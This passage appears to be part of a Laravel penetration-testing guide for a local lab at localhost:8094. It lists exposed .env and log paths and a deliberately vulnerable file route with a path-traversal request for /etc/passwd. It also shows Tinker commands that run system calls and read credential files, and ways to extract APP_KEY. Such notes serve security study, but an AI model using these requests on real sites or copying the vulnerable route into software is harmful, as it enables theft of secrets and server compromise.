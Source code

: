 ### 1. Environment File Exposure
```bash
# Common misconfigurations expose .env
http://localhost:8094/.env
http://localhost:8094/.env.backup
http://localhost:8094/storage/.env

# Contains database passwords, API keys, etc.
```

### 2. Storage Directory Exposure
```bash
# Sensitive files accessible
http://localhost:8094/storage/logs/laravel.log
http://localhost:8094/storage/framework/sessions/
http://localhost:8094/storage/app/backups/
```

### 3. Route Parameter Injection
```php
Route::get('/file/{path}', function($path) {
    return file_get_contents(storage_path($path));
})->where('path', '.*');

// Attack
http://localhost:8094/file/../../../etc/passwd
```

### 4. Queue Poisoning
```php
// Unsafe job processing
dispatch(new ProcessUserData($request->all()));

// Can lead to RCE if job processes user data unsafely
```

## Exploitation Techniques

### Laravel Tinker RCE
```bash
# If tinker is accessible
php artisan tinker
>>> system('whoami');
>>> file_get_contents('/etc/passwd');
>>> \DB::table('users')->get();
```

### Extract APP_KEY
```bash
# From error pages
trigger_error() exposing .env content

# From Laravel Telescope
http://localhost:8094/telescope/requests

# From logs
http://localhost:8094/storage/logs/laravel.log
```

